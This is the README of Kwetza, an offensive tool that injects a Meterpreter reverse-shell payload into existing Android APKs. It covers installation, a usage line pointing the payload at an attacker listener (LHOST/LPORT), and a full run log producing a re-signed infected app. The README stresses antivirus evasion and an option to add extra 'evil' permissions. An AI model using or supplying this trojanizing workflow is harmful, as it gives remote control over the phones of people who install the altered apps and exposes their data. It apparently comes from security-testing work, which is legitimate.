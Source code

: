 #Introduction
By Chris Le Roy (@bromwpnie) chris@sensepost.com

Kwetza is a tool that allows you to infect an existing Android application with a Meterpreter payload.

#What does it do?
Kwetza infects an existing Android application with either custom or default payload templates to avoid detection by antivirus. Kwetza allows you to infect Android applications using the target application's default permissions or inject additional permissons to gain additional functionality.

#Getting the code

Firstly get the code:
```
git clone https://github.com/sensepost/kwetza.git
```

Kwetza is written in Python and requires BeautfiulSoup which can be installed using Pip:
```
pip install beautifulsoup4
```
Kwetza requires Apktool to be install and accessible via your PATH. This can be setup using the install instructions located here: https://ibotpeaches.github.io/Apktool/install

#Usage

python kwetza.py nameOfTheApkToInfect.apk LHOST LPORT yes/no

* nameOfTheApkToInfect.apk =name of the APK you wish to infect.
* LHOST =IP of your listener.
* LPORT =Port of your listener.
* yes =include "yes" to inject additional evil perms into the app, "no" to utilize the default permissions of the app.

```
python kwetza.py hackme.apk 10.42.0.118 4444 yes
[+] MMMMMM KWETZA
[*] DECOMPILING TARGET APK
[+] ENDPOINT IP: 10.42.0.118
[+] ENDPOINT PORT: 4444
[+] APKTOOL DECOMPILED SUCCESS
[*] BYTING COMMS...
[*] ANALYZING ANDROID MANIFEST...
[+] TARGET ACTIVITY: com.foo.moo.gui.MainActivity
[*] INJECTION INTO APK
[+] CHECKING IF ADDITIONAL PERMS TO BE ADDED
[*] INJECTION OF CRAZY PERMS TO BE DONE!
[+] TIME TO BUILD INFECTED APK
[*] EXECUTING APKTOOL BUILD COMMAND
[+] BUILD RESULT
############################################
I: Using APktool 2.2.0
I: Checking whether source shas changed...
I: Smaling smali folder into classes.dex
I: Checking whether resources has changed...
I: Building resources...
I: Copying libs ...(/lib)
I: Building apk file...
I: Copying unknown files/dir...
###########################################
[*] EXECUTING JARSIGNER COMMAND...
Enter Passphrase for keystore: password
[+] JARSIGNER RESULT
###########################################
jar signed.

###########################################

[+] L00t located at hackme/dist/hackme.apk
```


#Information

Kwetza has been developed to work with Python 2. Kwetza by default will use the template and keystore located in the folder "payload" to inject and sign the infected apk. If you would like to sign the
infected application with your own certificate, generate a new keystore and place it in the "payload" folder and rename to the existing keystore or change the 
reference in the kwetza.py. The same can be done for payload templates. The password for the default keystore is, well, "password".

#License

Kwetza is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0) Permissions beyond the scope of this license may be available at http://sensepost.com/contact.
